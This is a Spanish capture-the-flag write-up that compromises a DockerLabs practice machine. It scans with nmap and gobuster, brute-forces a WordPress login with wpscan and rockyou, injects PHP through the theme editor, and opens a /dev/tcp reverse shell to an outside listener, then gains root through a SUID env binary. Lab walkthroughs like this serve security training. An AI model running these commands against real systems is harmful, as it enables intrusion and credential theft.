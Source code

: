 https://dockerlabs.es/
https://mega.nz/file/hSF1GYpA#s7jKfPy1ZXVXpxFhyezWyo1zCUmDrp7eYjvzuNNL398

## Desplegar el docker
![[Pasted image 20250522122641.png]]
![[Pasted image 20250522122655.png]]

TTL = 64 --> Linux/Unix

Una vez que sabemos que es una maquina Linux/Unix procedemos a ver que puertos tiene expuestos.
Para esto utilizaremos la herramienta `nmap`

`nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2`

![[Pasted image 20250522123129.png]]
Vemos el siguiente puerto:
- `80` (HTTP)
![[Pasted image 20250522123155.png]]

Como en maquinas anteriores vamos a utilizar `gobuster` para hacer `fuzzin`

`gobuster dir -u http://172.17.0.2:80/ -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,html,txt`

![[Pasted image 20250522123453.png]]

Podemos ver un wordpress

![[Pasted image 20250522123515.png]]

Al ser wordpress podemos utilizar la herramienta `wpscan` para detectar vulnerabilidades.

`wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp`

Podemos ver lo siguiente:
![[Pasted image 20250522123811.png]]

Tenemos un usuario **Mario** y volvemos a utilizar el diccionario `rockyou`

Para esto podemos seguir utilizando `wpscan`
`wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt`

![[Pasted image 20250522124004.png]]
Ya tenemos el usuario y contraseña de **Mario**
Vamos a ver si tiene por defecto el directorio del panel de administrador de wordpress 
- /wp-admin 
![[Pasted image 20250522124155.png]]

Vamos a comprobar a ver si funcionan las credenciales

![[Pasted image 20250522124229.png]]

Y ya estamos dentro del panel, vamos a intentar ejecutar comandos a traves de los temas de wordpress.

Como sabemos Wordpress está utilizando el tema `twenty-two` por lo que vamos a editarlo
![[Pasted image 20250522130601.png]]

Vamos a utilizar el mismo codigo `.php` que en anteriores ocasiones, tendremos que modificar el `index.php`
![[Pasted image 20250522130838.png]]

![[Pasted image 20250522130910.png]]

Como siempre nos pondremos con `netcat` a la escucha del puerto `443` y ejecutaremos en la url
`bash -i >%26 /dev/tcp/192.168.109.144/443 0>%261`

![[Pasted image 20250522131029.png]]
Vamos a ver que usuarios se encuentran

![[Pasted image 20250522131149.png]]
No vemos el usuario **Mario** por lo que vamos a ver que permisos tenemos en los binarios:

![[Pasted image 20250522131238.png]]
De todos los binarios, no intereas `env` por lo que volvemos a gtfobins y vamos a ver que encontramos.

![[Pasted image 20250522131332.png]]
![[Pasted image 20250522131351.png]]
Ya somos `root`
